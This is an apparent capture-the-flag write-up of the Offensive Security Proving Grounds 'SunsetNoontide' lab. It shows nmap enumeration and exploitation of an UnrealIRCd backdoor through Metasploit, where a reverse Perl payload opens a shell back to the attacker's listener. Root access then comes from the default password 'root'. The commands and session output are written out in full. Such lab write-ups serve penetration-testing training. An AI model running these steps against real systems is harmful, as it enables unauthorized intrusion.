

# SunsetNoontide
**Date:** June 20th 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>



<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 192.168.152.120`

```
PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
```

An additional all ports scan found:

```
PORT     STATE SERVICE VERSION
6697/tcp open  irc     UnrealIRCd
8067/tcp open  irc     UnrealIRCd
Service Info: Host: irc.foonet.com
```

<br>

## IRC Digging

I run a `searchsploit unrealirc` and find the following:

```
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)         | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow              | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                       | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                            | windows/dos/27407.pl
--------------------------------------------------------------------- ---------------------------------
```

I'll give the first one a shot and start up **Metasploit** with `msfconsole`.

`search unreal`

```
   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/linux/games/ut2004_secure           2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Linux)
   1  exploit/windows/games/ut2004_secure         2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Win32)
   2  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution
```

I decide to give #2 a shot since it's rated as excellent.

`use 2`

`set RHOSTS 192.168.152.120`

`set PAYLOAD cmd/unix/reverse_perl`

`set LHOST 192.168.49.152`

`show options`

```
Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.152.120  yes       The target host(s), see https://github.com/rapid7/metasploit-fr
                                      amework/wiki/Using-Metasploit
   RPORT   6667             yes       The target port (TCP)


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.49.152   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

<br>

## System Access

With everything set I run the exploit and get a shell back:

`exploit`

```

[*] Started reverse TCP handler on 192.168.49.152:4444 
[*] 192.168.152.120:6667 - Connected to 192.168.152.120:6667...
    :irc.foonet.com NOTICE AUTH :*** Looking up your hostname...
[*] 192.168.152.120:6667 - Sending backdoor command...
[*] Command shell session 1 opened (192.168.49.152:4444 -> 192.168.152.120:41826) at 2022-06-20 10:28:45 -0400

id
uid=1000(server) gid=1000(server) groups=1000(server),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
hostname
noontide
```

`which python3`

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm-256color`

<br>

## System Enumeration

I take a look in the **/home** directory and the only user listed is **server**. Inside that directory we find our first flag **local.txt**:

`wc -c local.txt`

```
33 local.txt
```

Checking `sudo -l`:

```
bash: sudo: command not found
```

<br>

## Root

I was definitely NOT expecting this, but I tried to `su root` using **root** as the password and it worked...

```
server@noontide:~/irc/Unreal3.2$ su root
Password: 
root@noontide:/home/server/irc/Unreal3.2#
```

I guess default passwords are sometimes realistic in the real world but I figured there would have been something else to escalate privilieges here.

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Finding an UnrealIRCd server running on the system that was vulnerable to RCE and using that for our initial foothold on the system
- Finding a very weak password on the root account and escalating our privileges that way

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
